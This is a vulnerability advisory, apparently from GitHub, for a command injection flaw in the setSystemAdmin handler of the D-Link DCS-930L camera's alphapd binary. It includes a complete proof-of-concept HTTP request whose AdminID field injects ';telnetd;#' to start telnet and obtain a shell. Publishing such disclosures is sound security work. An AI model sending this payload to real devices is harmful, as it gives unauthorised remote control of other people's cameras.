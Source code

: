 **Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  2.16.0.1

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

A command injection vulnerability exists in the setSystemAdmin function of the alphapd binary in D-Link DCS-930L firmware v2.16.0.1. The AdminID parameter is directly taken from user input and inserted into shell commands without proper sanitization, allowing remote attackers to execute arbitrary OS commands via crafted requests. Vulnerable devices may include D‑Link DCS‑930L units running firmware v2.16.0.1 or earlier.


---
### **Vulnerability Details**

![image-1](./img/1.png)
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
Just set `AdminID` as **';telnetd;#** , and the device will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 330
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=539a63634c9a634a9a63cfc3635b0563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563&SessionKey=1325376377&ConfigSystemAdmin=Save
```

Get a shell!
![image-2](./img/2.png)
